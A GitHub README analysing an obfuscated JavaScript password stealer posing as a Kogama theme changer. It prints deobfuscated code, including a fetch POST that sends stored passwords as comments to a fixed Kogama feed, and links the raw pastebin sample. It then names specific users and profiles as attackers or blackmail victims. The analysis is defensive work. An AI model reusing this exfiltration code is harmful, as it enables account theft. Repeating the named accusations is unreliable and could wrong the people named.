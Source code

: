 # Malware Sample Analysis: Obfuscated JavaScript Payload

## Overview
This repository contains an analysis of a malicious JavaScript sample found on Pastebin, which masquerades as a benign "theme changer" utility. The script is heavily obfuscated and exhibits clear malicious behavior.


⚠️ **Warning**: Do not execute this script outside of a controlled sandbox environment.

 💚 Credits to ***Amine*** for helping me realise that no more current leads exist.

## Sample Information
- **Source**: [Pastebin Link](https://pastebin.com/raw/UqK3rjrA)
- **Claimed Function**: Theme changer utility
- **Actual Behavior**: Malicious payload (analysis ongoing)

## Indicators of Compromise
The script exhibits several red flags:

1. **Suspicious Attribution**
   - Unknown author ("Lavar") with no verifiable identity
   - No legitimate project homepage or documentation

2. **Obfuscation Techniques**
   - Heavy use of encoding and string manipulation
   - Unnecessary complexity for stated purpose
   - Obfuscated network calls

3. **Anomalous Code Patterns**
   ```javascript
   fetch('https://www.kogama.com/api/feed/31872096/comment/[...]') // A request to post a comment
   ({'comment':localStorage[_0x5acfe3(0x206)](...)})  // Accessing localStorage (saved data contents)
   const _0x1a7136=['addEventListener','getElementById','application/json','https://www.kogama.com/auth/logout'] // Getting an element by ID and logging us out
   ```

# Technical Analysis

### Initial Deobfuscation
The script employs heavy obfuscation with several immediate red flags:

```javascript
function _0x22fc() {
  const _0x1a7136 = [
    'addEventListener', 'log', 'stringify', 'location', 'status', 
    '173846mcQEUN', '9NpMVeb', 'Success:', '113830LYAXum', 'keyCode',
    'setItem', 'value', 'root-page-mobile', 'password', '71868QrEQBX',
    'getItem', 'error', '2716758eSaPId', 'catch', 'poop',
    'querySelector', 'Error:', '126544zlfMyY', 'lol', '506569BqwGkp',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-text.MuiButton-textDefault...',
    '99qjFQGn', '2MXeZit', 'then', 'getElementById', 'application/json',
    'https://www.kogama.com/auth/logout', '25vivdkf', 'json',
    "Button not found!", '768536FEIJoG', 'POST', 'click',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-contained...',
    "background-image: linear-gradient(135deg, rgb(0 137 255), rgb(0 112 255))"
  ];
  _0x22fc = function() { return _0x1a7136; };
  return _0x22fc();
}
```

###  Key Malicious Behaviors

1. **Anomalous Code Patterns**
   - Sets a localStorage variable named 'poop' to store passwords
   - Calls logout function (https://www.kogama.com/auth/logout) to force re-authentication

2. **Data Exfiltration**
   - Transmits stolen credentials as a "comment" to a fixed Kogama.com feed ID
   - You can view the current state of comments from this object [here](https://www.kogama.com/api/feed/31872096/comment/)
   - If you want to go a few steps ahead, you can compare your findings to what I've saved @ [May 31, 2025 20:24](https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/endpoint/comments.json)
```javascript
fetch('https://www.kogama.com/api/feed/31872096/comment/', {
  'method': _0x5acfe3(0x1f3),  // Resolves to 'POST'
  'headers': {
    'Content-Type': _0x5acfe3(0x1ed)  // Resolves to 'application/json'
  },
  'body': JSON[_0x5acfe3(0x1f9)]({  // Resolves to 'stringify'
    'comment': localStorage[_0x5acfe3(0x206)](_0x5acfe3(0x1e2))  // Gets 'password'
  })
```

As of [May 31, 2025 20:24](https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/endpoint/comments.json) the only accounts that have posted any comments under this specific Object are ~~GameCodeMaster~~ and a dummy account @ [Boris Jacob Anderson](https://www.kogama.com/profile/670351929/). Both of those have already changed passwords which could mean two twings. 
~~Either the person behind this script is GameCodeMaster simply testing their own sample, or that account has been stolen because of their naive traits.
Why such theory? GameCodeMaster is an owner of 'Tester' Badge, which these days - isn't rare, but it just may be an indicator.~~

*What of the post/feed that stores the comments? - I'm still trying to locate it, trying to finalise the investigation.
No hits in unpublished projects, deleted maps or anywhere else.
Due to this issue - figuring out who's behind the script is currently impossible.

![image](https://github.com/user-attachments/assets/50b0b399-baad-4b8b-b0e1-7dbb30eeb70f)

> [**This is what happens when you execute the script**](https://youtu.be/cgtRLFCTV40 )


## Conclusion & Recommendations

### Summary of Findings
1. **Malicious Intent Confirmed**  
   The script is definitively a credential stealer masquerading as a theme utility, with:
   - Password harvesting via forced re-authentication
   - Data exfiltration to a public comment feed
   - Deliberate obfuscation to evade detection

2. **Attack Infrastructure**  
   - Utilizes Kogama's legitimate API as C2 channel
   - Targets: `https://www.kogama.com/api/feed/31872096/comment/`
   - Persistence: Stored credentials in `localStorage` under key `'poop'`

3. **Attribution Challenges**  
   - Only two affected accounts detected ~~GameCodeMaster~~ and [Boris Jacob Anderson](https://www.kogama.com/profile/670351929/))
   - Possible scenarios:
     * Attacker testing their own malware
     * Compromised naive accounts
     * False flag operation

### Mitigation Strategies
| Action | Implementation |
|--------|----------------|
| Credential Rotation | All potentially exposed users should change passwords |
| API Monitoring | Kogama should investigate abnormal comment patterns on feed #31872096 |
| Client Protection | Block execution of scripts from untrusted paste sites |

### Future Research Directions
- **Feed Origin Analysis**: Continue hunting for the parent feed object
- **Pattern Correlation**: Compare with other Kogama-targeting malware
- **Attacker TTPs**: Document tactics for threat intelligence sharing

### Community Call-to-Action
Help expand this analysis by:
1. Reporting additional affected accounts via Issues
2. Contributing YARA rules for detection
3. Sharing related samples in the wild

---

# FINAL INVESTIGATION RESULTS

After thorough analysis, it has been determined that the initial hypothesis regarding GameCodeMaster being the threat actor was incorrect. In reality, GameCodeMaster was among three individuals who were coerced through blackmail into developing malicious scripts under the direction of an entity known as 'Inversion'.

Two additional parties involved in this operation, who engaged in harassment and email spamming targeting the victims, have been identified as 'zinxi' and 'g0d_b3rn13'.

> ![Evidence 1](https://github.com/user-attachments/assets/9f92350e-091d-4038-ae28-6f00e670ddf5)
> ![Evidence 2](https://github.com/user-attachments/assets/4083e999-6c48-4bee-91dc-d2c6eaa8c4bc)

## IDENTIFIED THREAT ACTOR
**Primary Actor**: [__ChiefPuddle/Inversion__](https://www.kogama.com/profile/670201468/)  

**Known Alternate Accounts**:  
- [__Asood Moohammed243__](https://www.kogama.com/profile/670339973/)

## ADDITIONAL FINDINGS
The primary threat actor has been actively distributing password-stealer malware through comments on the profile of '[G0D_B3RN13](https://www.kogama.com/profile/669867874/)'.

> ![Malware Distribution Evidence](https://github.com/user-attachments/assets/d009bf9d-c8cf-4da1-8c85-5e248c954596)
